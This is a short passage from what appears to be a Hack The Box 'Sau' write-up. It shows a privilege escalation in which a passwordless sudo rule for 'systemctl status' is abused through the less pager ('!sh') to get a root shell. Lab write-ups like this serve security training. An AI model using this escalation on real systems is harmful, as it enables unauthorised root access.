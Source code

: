 
#### Privilege Escalation
if we run ```sudo -l```

```bash
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
to get root shell, we do
```bash
sudo /usr/bin/systemctl status trail.service
```
Then we are in less output
if we press ```!sh```
we will get a root shell
![root](https://github.com/bsv1n4y/WriteUps/blob/main/HTB/Sau/root.png?raw=true)

That is the box, hope you guys enjoyed.
ThankYou.







